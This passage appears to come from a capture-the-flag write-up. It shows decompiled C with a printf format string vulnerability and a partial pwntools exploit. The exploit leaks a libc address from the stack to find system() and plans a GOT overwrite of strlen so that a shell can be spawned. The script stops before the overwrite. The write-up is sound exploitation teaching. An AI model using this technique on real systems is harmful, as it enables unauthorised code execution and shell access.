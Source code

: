 ```c++
      case 'i':
        a1[i] = '1';
        break;
      case 'O':
      case 'o':
        a1[i] = '0';
        break;
      case 'S':
      case 's':
        a1[i] = '5';
        break;
      case 'T':
      case 't':
        a1[i] = '7';
        break;
      case 'Z':
      case 'z':
        a1[i] = '2';
        break;
      default:
        continue;
    }
  }
  return printf(a1);
}
```

Yes it is vulnerable to `Format string vulnerbility`. What I did is:

- Read the stack to leak `__libc_start_main`.
- Leak libc base address.
- In `GOT table`, overwrite `strlen` with `system`.
- Call `strlen("/bin/sh")`.

Script:

```python
from pwn import *
p = 0
libc = ELF('libc.so.6', checksec=False)
strlen_got = 0x601020
_main = 0x400995
fini = 0x600E18

def leet(s, ret=True):
	p.sendlineafter('exit\n', '0')
	if isinstance(s, str):
		p.sendafter('):\n', s)
	elif isinstance(s, bytes):
		p.sendafter(b'):\n', s)
	else:
		assert (False)
	if ret:
		return p.recvline()

def main():
	global p
	#p = process('./leet_haxor')
	p = remote('jh2i.com', 50022)
	r = leet('%33$llx' + '\n')[:-1]
	libc_start_main = int(r, 16) - 0xE7
	base = libc_start_main - libc.symbols['__libc_start_main']
	system = base + libc.symbols['system']
	strlen = base + libc.symbols['strlen']
	log.info('system   : 0x%X' % system)
```